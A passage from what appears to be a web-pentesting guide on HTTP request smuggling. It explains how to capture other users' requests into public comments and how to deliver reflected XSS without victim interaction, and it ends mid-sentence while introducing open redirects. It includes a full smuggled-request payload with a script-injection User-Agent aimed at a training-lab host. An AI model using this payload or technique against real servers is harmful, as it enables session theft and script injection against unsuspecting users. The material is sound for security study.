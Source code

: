 In this case, the value of the **parameter comment** is going to be **saved inside a comment** of a post in the page that is **publicly available**, so a **comment will appear with the content of the next request**.

_One limitation with this technique is that it will generally only capture data up until the parameter delimiter that is applicable for the smuggled request. For URL-encoded form submissions, this will be the `&` character, meaning that the content that is stored from the victim user's request will end at the first `&`, which might even appear in the query string._

Note also that this **technique is also exploitable with a TE.CL** vulnerability but the request must end with `search=\r\n0`. However, independently of the new line characters the values are going to be appended to the search parameter.

### Using HTTP request smuggling to exploit reflected XSS

If the web page is also **vulnerable to Reflected XSS**, you can abuse HTTP Request Smuggling to attack clients of the web. The exploitation of Reflected XSS from HTTP Request Smuggling have some advantages:

* **It requires no interaction with victim users**
* It can be used to **exploit** XSS behavior in parts of the request that **cannot be trivially controlled in a normal reflected XSS attack**, such as HTTP request headers.

If a web is vulnerable to Reflected XSS on the User-Agent header you can use this payload to exploit it:

`POST / HTTP/1.1`\
`Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net`\
`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0`\
`Cookie: session=Ro7YknOtbl3bxURHAAxZz84qj3PSMnSY`\
`Transfer-Encoding: chunked`\
`Connection: keep-alive`\
`Content-Length: 213`\
`Content-Type: application/x-www-form-urlencoded`\
``\ `0`\``\
`GET /post?postId=2 HTTP/1.1`\
`Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net`\
`User-Agent: "><script>alert(1)</script>`\
`Content-Length: 10`\
`Content-Type: application/x-www-form-urlencoded`\
\`\`\
`A=`

### Using HTTP request smuggling to turn an on-site redirect into an open redirect <a href="#using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect" id="using-http-request-smuggling-to-turn-an-on-site-redirect-into-an-open-redirect"></a>

Many applications perform on-site redirects from one URL to another and place the hostname from the request's `Host` header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:
